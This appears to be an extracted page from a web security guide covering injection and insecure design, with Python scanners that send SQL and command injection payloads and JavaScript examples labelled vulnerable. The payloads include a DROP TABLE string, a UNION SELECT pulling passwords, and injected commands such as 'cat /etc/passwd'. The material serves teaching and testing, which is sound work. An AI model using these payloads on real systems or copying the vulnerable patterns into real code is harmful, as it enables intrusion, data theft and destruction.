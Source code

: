 #### **Code Smells:**
- String concatenation in SQL queries
- Unsanitized user input in system commands
- Dynamic query construction
- Missing input validation
- Unsafe deserialization

#### **Exploitation Techniques:**
```python
# SQL Injection exploitation
def test_sql_injection(url, parameter):
    payloads = [
        "' OR '1'='1",
        "'; DROP TABLE users; --",
        "' UNION SELECT username, password FROM users --",
        "' OR 1=1 --"
    ]
    
    for payload in payloads:
        response = requests.get(url, params={parameter: payload})
        if "error" in response.text.lower():
            print(f"SQL Injection found with payload: {payload}")

# Command Injection exploitation
def test_command_injection(url, parameter):
    payloads = [
        "; ls -la",
        "| whoami",
        "&& id",
        "; cat /etc/passwd"
    ]
    
    for payload in payloads:
        response = requests.get(url, params={parameter: payload})
        if "root:" in response.text or "bin:" in response.text:
            print(f"Command Injection found with payload: {payload}")
```

### **A04:2021 – Insecure Design**

#### **Vulnerability Patterns:**
```javascript
// VULNERABLE: Missing rate limiting
app.post('/api/login', (req, res) => {
    // No rate limiting - vulnerable to brute force
    authenticateUser(req.body.username, req.body.password);
});

// VULNERABLE: Weak business logic
function transferMoney(fromAccount, toAccount, amount) {
    if (amount > 0) {  // Weak validation
        return processTransfer(fromAccount, toAccount, amount);
    }
}
```
